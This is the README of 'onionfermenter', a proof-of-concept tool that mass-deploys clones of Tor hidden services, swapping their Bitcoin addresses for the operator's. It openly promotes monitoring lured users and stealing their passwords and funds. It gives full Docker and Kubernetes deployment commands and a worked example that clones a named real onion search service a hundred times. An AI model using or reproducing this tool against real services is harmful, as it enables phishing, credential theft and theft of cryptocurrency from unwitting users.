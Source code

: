 # onionfermenter
A proof of concept for Bitcoin stealing man-in-the-middle (MitM) attacks against TOR hidden services on a large scale. Writeup here.

asciicast

With OF, you can create any number of clones of web hidden services that function just like the original but with bitcoin addresses on pages replaced with your own. You can monitor any users lured to use these clone pages, steal their passwords, and snatch the bitcoin they spend on the sites.

With minor changes, OF can be used to steal other virtual currencies as well.
Usage

OF is implemented as a containerized application that is configured using environment variables and a file mount. You can run it with Docker, but the full power is unleashed with the scalability and redundancy of Kubernetes.
Preparations

What you need:

    Bitcoin addresses to receive funds
    TOR onion address(es) you want to attack

Bitcoin addresses you can get by creating a local wallet using Electrum, and pre-generating for example 1000 addresses. Put the addresses into a file, one address per line. Bitcoin addresses on the clone pages will be replaced with randomly picked addresses from this file.

Note: Replacing addresses must be of same length as the ones that get replaced. This means it may be useful to have addresses of all types and lengths in the file.
Running on Kubernetes
Prerequisites

    Kubernetes cluster + kubectl configured to use it
    make
    helm

Deploy to Kubernetes

This will create NREPLICAS clones of the victim onion service VICTIM_ONION_ID, and the original bitcoin addresses will be replaced by those in ADDRESS_FILE.

export NREPLICAS=<number of replicas to create>
export VICTIM_ONION_ID=<victim onion domain without .onion suffix>
export ADDRESS_FILE=<absolute path to a file with your receiving bitcoin addresses>
make deploy

Note: It takes a while for the services to be available (~60 seconds).

You can change the configuration of an already running deployment by modifying the NREPLICAS and ADDRESS_FILE environment variables to your liking and running make deploy again.
Get the onion addresses of your clones

This will get all the onion addresses of the clones you created of the victim onion service VICTIM_ONION_ID. If VICTIM_ONION_ID is not set, it will get the clone addresses for all victim services.

export VICTIM_ONION_ID=<victim onion domain without .onion suffix>
make get-addresses

Note: The addresses change if the corresponding pods are restarted. The pods contain liveness checks and will automatically restart containers that remain unavailable for long enough.
View and manage your clones

The clones will be deployed in the Kubernetes namespace "onionfermenter" using helm. You can interact with them as with any Kubernetes resources.

helm ls -n onionfermenter
kubectl -n onionfermenter get deployments
kubectl -n onionfermenter get pods

Delete all related resources

kubectl delete namespace onionfermenter

Example

Create 100 clones of Ahmia and replace all addresses with Torproject's donate address

git clone https://github.com/ValtteriL/OnionFermenter.git
cd OnionFermenter

cat > bitcoin-addresses.txt << EOF
bc1qtt04zfgjxg7lpqhk9vk8hnmnwf88ucwww5arsd
EOF

export ADDRESS_FILE="`realpath bitcoin-addresses.txt`"
export NREPLICAS=100
export VICTIM_ONION_ID=juhanurmihxlp77nkq76byazcldy2hlmovfu2epvl5ankdibsot4csyd

make deploy

Running on Docker
Prerequisites

    make
    docker

Deploy

This will create a single clone of the victim onion service VICTIM_ONION_ID, and the original bitcoin addresses will be replaced by those in ADDRESS_FILE.

export VICTIM_ONION_ID=<victim onion domain without .onion suffix>
export ADDRESS_FILE=<absolute path to a file with your receiving bitcoin addresses>
make run # sudo -E make run

Note: It takes a while for the services to be available (~60-300 seconds).
Get the onion addresses of your clones

This will get all the onion addresses of the clones you created of the victim onion service VICTIM_ONION_ID.

export VICTIM_ONION_ID=<victim onion domain without .onion suffix>
make get-addresses-docker # sudo -E make get-addresses-docker

View and manage your clones

The clones will have the VICTIM_ONION_ID as the prefix of their names. You can use the usual docker commands to manage them.

docker ps

Delete clone

docker rm --force <container id or VICTIM_ONION_ID>

Example

Create a single clone of Ahmia and replace all addresses with Torproject's donate address

git clone https://github.com/ValtteriL/OnionFermenter.git
cd OnionFermenter

cat > bitcoin-addresses.txt << EOF
bc1qtt04zfgjxg7lpqhk9vk8hnmnwf88ucwww5arsd
EOF

export ADDRESS_FILE="`realpath bitcoin-addresses.txt`"
export VICTIM_ONION_ID=juhanurmihxlp77nkq76byazcldy2hlmovfu2epvl5ankdibsot4csyd

make run # sudo -E make run

Development

Notes to self
Build + push container:

make build
make push

